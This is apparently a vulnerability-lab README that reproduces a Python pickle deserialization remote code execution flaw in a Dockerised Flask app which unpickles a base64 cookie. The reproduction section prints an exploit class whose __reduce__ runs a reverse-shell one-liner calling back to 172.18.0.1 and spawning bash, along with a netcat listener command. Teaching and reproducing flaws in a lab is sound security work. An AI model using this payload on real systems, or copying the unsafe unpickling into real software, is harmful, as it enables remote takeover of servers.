 # Python Unpickle Deserialization Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Python's pickle module is a popular serialization/deserialization tool that converts Python objects into byte streams and vice versa. However, when untrusted data is deserialized using pickle, it can lead to arbitrary code execution.

This vulnerability occurs when an application deserializes user-controlled data using the pickle module without proper validation. An attacker can craft a malicious serialized object that, when deserialized, executes arbitrary commands on the target system.

References:

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
- https://docs.python.org/3/library/pickle.html#pickle.loads
- https://intoli.com/blog/dangerous-pickles/

## Environment Setup

Execute the following command to start the vulnerable Flask application:

```
docker compose build
docker compose up -d
```

After the server is started, you can access `http://your-ip:8000` in your browser. The page will display `Hello {username}!`, where username is retrieved from the 'user' cookie. The application performs base64 decoding and deserialization on this cookie to extract the "username" variable. If no valid cookie is found, it defaults to "Guest".

The vulnerable code in app.py looks like this:

```python
@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username
```

## Vulnerability Reproduction

To exploit this vulnerability, we need to create a malicious pickle object that will execute arbitrary commands when deserialized. The exploit uses Python's `__reduce__` method to specify what function to call when the object is unpickled.

The provided exploit script (exp.py) creates a malicious pickle object that establishes a reverse shell connection to the attacker's machine:

```python
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.18.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))
```

To execute the exploit, first set up a netcat listener on your machine to receive the reverse shell:

```
nc -lvp 80
```

Then run the exploit script to send the malicious cookie to the vulnerable application:

```
python3 exp.py
```

When the server deserializes the malicious pickle object, it will execute the command and establish a reverse shell connection to your machine:

![Reverse Shell Demonstration](1.png)
